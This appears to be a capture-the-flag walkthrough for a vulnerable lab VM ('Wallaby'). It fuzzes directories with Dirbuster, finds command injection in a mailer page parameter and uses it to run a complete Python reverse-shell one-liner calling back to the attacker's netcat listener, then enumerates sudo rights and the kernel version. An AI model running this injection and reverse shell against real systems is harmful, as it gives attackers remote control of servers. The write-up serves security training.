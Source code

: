 ***
### Dirbuster
options:
```
target url <http://192.168.86.142:60080>  

autoswitch (HEAD and GET)  

List Brute force using

/usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt$

URL to fuzz - /index.php?page={dir}`
```

In one of the responses, a command injection can be found:  
the mailer page has a mail function that performs an os command.
`mail` is the command shown below, with the arguments being the user to mail, and the message,
but any command on the system can be substituted...

```html
<h2 style='color:blue;'>Coming Soon guys!</h2>
    <!--a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button-->
    <!--Better finish implementing this so hiway
 can send me all his loser complaints!—>
```

so we’ll try to inject a reverse-shell

first, set up a listener on your local machine
```
root@kali:~/wallaby# nc -l -p 1234
```

grab some reverse shell samples from pentestmonkey (python sample works) 
<http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

browser url, with the reverse shell injection substituted for the `mail` command:
combine these two lines --
```
http://192.168.86.140:60080/?page=mailer&mail=
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.86.141",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now we have shell

check what we can do with `sudo`
```
$ sudo -l
```
```
Matching Defaults entries for www-data on ubuntu:  
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
    (ALL) NOPASSWD: /sbin/iptables
```
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```